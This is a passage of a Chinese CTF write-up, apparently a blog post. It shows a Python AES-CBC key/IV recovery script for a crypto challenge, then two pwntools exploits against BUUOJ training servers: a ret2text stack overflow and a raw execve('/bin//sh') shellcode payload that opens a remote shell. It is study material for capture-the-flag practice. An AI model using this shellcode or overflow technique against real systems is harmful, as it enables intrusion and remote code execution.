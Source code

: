 之后key的低128bits，与输出结果的低128bits 相异或，所得结果就是 iv的值了key,iv得到后直接aes.decrypt()解密就ok了

```python
from Crypto.Cipher import AES
from Crypto.Util.number import *

xor=3657491768215750635844958060963805125333761387746954618540958489914964573229
enc= b'>]\xc1\xe5\x82/\x02\x7ft\xf1B\x8d\n\xc1\x95i'
xor=long_to_bytes(xor)
key = xor[:16]*2
iv = bytes_to_long(key[16:])^bytes_to_long(xor[16:])
iv = long_to_bytes(iv)
aes = AES.new(key, AES.MODE_CBC, iv)
flag = aes.decrypt(enc)
print(flag)
```

> Crypto就到这了，其他几个加密方式很明确，都很常见，懒得写了

## **<u>Crypto部分完咯，接下来是Pwn</u>**

> Pwn我是真的不会，做的两个都很简单，网上现看的

## Pwn

> Pwn的具体原理不讲，因为我也不会。真的不会Pwn，求个Pwn爷带

#### 1、ret2text

pwntools都应该有的吧，虽然不会，但是工具不能少。~~差生文具多~~

第一个栈溢出，IDA打开后看到有直接的后门函数，看到输入的数量使栈溢出时，再用后面输入的覆盖掉原有的函数跳转，即可rce

```python
from pwn import *
p = remote('node4.buuoj.cn',25658)
pload = ("aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa").encode()  + p64(0x04011FB)

print(pload)
p.sendline(pload)
p.interactive()
```

#### 2、ezshellcode

溢出和之前一样，就是这次没有后门函数了，而且不需要判断多少字符会造成溢出，但是需要自己写shell，网上很多，抄一个就ok了

```python
# -*- coding: utf-8 -*-
from pwn import *
context(os='linux',arch='i386',log_level='debug')
#载入程序
pwn = remote('node4.buuoj.cn',25318)

#生成shellcode。并转换为机器码
shell = b'\x48\x31\xf6\x56\x48\xbf\x2f\x62\x69\x6e\x2f\x2f\x73\x68\x57\x54\x5f\x6a\x3b\x58\x99\x0f\x05'
payload = shell
pwn.sendline(payload)
pwn.interactive()

```

